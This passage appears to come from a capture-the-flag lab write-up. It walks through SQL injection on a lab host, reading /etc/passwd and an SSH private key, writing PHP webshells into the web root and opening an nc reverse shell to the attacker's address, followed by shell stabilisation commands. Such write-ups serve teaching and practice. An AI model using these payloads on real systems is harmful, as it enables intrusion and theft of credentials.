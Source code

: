 There is another way to access the system, without engaging **phpMyAdmin**, and that is to take advantage of the **SQLi** vulnerability. The first thing I can do is to use the **load_file** statement to read sensitive files from the system, in case there are protection measures, restrictions or problem in the use of special characters (**/**) I can encode in **hexadecimal** the absolute path of the file I want to access and the **SQL query** will interpret it correctly. The next thing is to resort to the **into outfile** statement to upload malicious files to the system, but I perform the necessary tests before uploading a **webshell**. I can now upload a **webshell** again to run an onliner to catch the incoming **reverse shell** with `nc` and access the system. I perform some enumeration commands (I confirm that the codename is **stretch**) but before continuing I perform a **console treatment**.

```bash
# view-source:http://10.10.10.143/room.php?cod=-1 union select 1,2,load_file("/etc/passwd"),4,5,6,7-- -

echo "/etc/passwd" | tr -d '\n' | xxd -ps
# view-source:http://10.10.10.143/room.php?cod=-1 union select 1,2,load_file(0x2f6574632f706173737764),4,5,6,7-- -
# view-source:http://10.10.10.143/room.php?cod=-1 union select 1,2,load_file("/home/pepper/.ssh/id_rsa"),4,5,6,7-- -
# view-source:http://10.10.10.143/room.php?cod=-1 union select 1,2,load_file("/proc/net/fib_trie"),4,5,6,7-- -
# view-source:http://10.10.10.143/room.php?cod=-1 union select 1,2,load_file("/proc/net/tcp"),4,5,6,7-- -
# view-source:http://10.10.10.143/room.php?cod=-1 union select 1,2,load_file("/home/pepper/user.txt"),4,5,6,7-- -
# view-source:http://10.10.10.143/room.php?cod=-1 union select 1,2,load_file("/home/pepper/Desktop/user.txt"),4,5,6,7-- -

# view-source:http://10.10.10.143/room.php?cod=-1 union select 1,2,"oldboy was here!",4,5,6,7 into outfile "/var/www/html/test2.txt"-- -
# http://10.10.10.143/test2.txt

# view-source:http://10.10.10.143/room.php?cod=-1 union select 1,2,"<php echo 'testing php code'; ?>",4,5,6,7 into outfile "var/www/html/rce2.php"-- -
# http://10.10.10.143/rce2.php

# view-source:http://10.10.10.143/room.php?cod=-1 union select 1,2,"<?php shell_exec($_REQUEST['cmd']); ?>",4,5,6,7 into outfile "/var/www/html/shell2.php"-- -
# http://10.10.10.143/shell2.php?cmd=whoami
# :(
# view-source:http://10.10.10.143/room.php?cod=-1 union select 1,2,"%3C?php system($_REQUEST['cmd']); ?%3E",4,5,6,7 into outfile "/var/www/html/shell3.php"-- -
# http://10.10.10.143/shell3.php?cmd=whoami
# :)

nc -nlvp 443
# http://10.10.10.143/shell3.php?cmd=nc -c bash 10.10.14.3 443

whoami
hostname -I
hostname
uname -a
lsb_release -a
# Codename:	stretch
id
groups

which python3
python3 -c "import pty;pty.spawn('/bin/bash')"
# [Ctrl^Z]
stty raw -echo; fg
reset xterm
export TERM=xterm
```